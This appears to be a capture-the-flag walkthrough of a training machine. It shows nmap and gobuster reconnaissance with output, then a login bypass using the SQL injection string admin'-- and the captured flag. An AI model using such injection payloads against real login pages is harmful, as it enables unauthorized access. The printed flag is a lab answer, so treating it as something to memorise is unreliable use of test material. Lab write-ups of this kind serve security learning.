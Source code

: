 machin ip :: 10.129.101.28

start wich Nmap to see which port are rinning.


	sudo nmap -sCV -T5 10.129.101.28 
	
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-23 14:42 EDT
	Nmap scan report for 10.129.101.28
	Host is up (0.16s latency).
	Not shown: 999 closed tcp ports (reset)
	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.38 ((Debian))
	|_http-server-header: Apache/2.4.38 (Debian)
	|_http-title: Login

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 10.73 seconds

Here we can see only one port is open {80}

let hit the url in browser

		it login page I check source page but nothing usal I get
		

		I use gobuster to look other dircetoy 

		gobuster dir -u http://10.129.101.28/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 50
		===============================================================
		Gobuster v3.1.0
		by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
		===============================================================
		[+] Url:                     http://10.129.101.28/
		[+] Method:                  GET
		[+] Threads:                 50
		[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt
		[+] Negative Status codes:   404
		[+] User Agent:              gobuster/3.1.0
		[+] Timeout:                 10s
		===============================================================
		2022/10/23 14:46:32 Starting gobuster in directory enumeration mode
		===============================================================
		/images               (Status: 301) [Size: 315] [--> http://10.129.101.28/images/]
		/css                  (Status: 301) [Size: 312] [--> http://10.129.101.28/css/]   
		Progress: 681 / 81644 (0.83%)                                                    [ERROR] 2022/10/23 14:46:53 [!] Get "http://10.129.101.28/wp-login": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
		/js                   (Status: 301) [Size: 311] [--> http://10.129.101.28/js/]    
		/vendor               (Status: 301) [Size: 315] [--> http://10.129.101.28/vendor/]
		/fonts                (Status: 301) [Size: 314] [--> http://10.129.101.28/fonts/] 

noting Intresting I get 

let hit SQl Sequence injection to bypass login page 
	I use admin'-- to by pass true condition and success fuly login into websit.


Congratulations!

Your flag is: e3d0796d002a446c0e622226f42e9672
